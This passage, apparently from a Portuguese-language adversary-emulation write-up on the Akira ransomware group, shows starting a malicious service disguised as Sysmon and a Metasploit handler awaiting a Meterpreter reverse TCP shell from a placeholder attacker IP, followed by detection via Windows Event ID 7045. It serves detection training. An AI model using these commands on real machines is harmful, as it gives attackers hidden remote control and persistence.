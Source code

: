 Inicie o serviço recém-criado:

```zsh
Start-Service -Name Sysmon
```

Aguarde a conexão reversa em seu sistema Linux. Se você estiver usando o Metasploit, abra o handler:

```zsh
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <seu_IP_atacante>
set LPORT <porta>
exploit
```

Após a execução, o payload sysmon.exe deve se conectar ao listener configurado no Linux, estabelecendo o acesso reverso à máquina Windows.

## Detecção de Ameaça V - Criação de Serviço Malicioso com Sysmon

O grupo Akira serviços ilegitimos se comportando como serviços legítmos para mantes a persitência e não ser detectado.

- **Evento de Novo Serviço Criado (EventID 7045):** Esse evento indica a criação de um novo serviço no sistema.

Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  <img src="Imagens/log 7045 - eventviewer - serviço sysmon criado.png">
  <br>
  Figura 38: Log Gerado no Sistema do Windows.
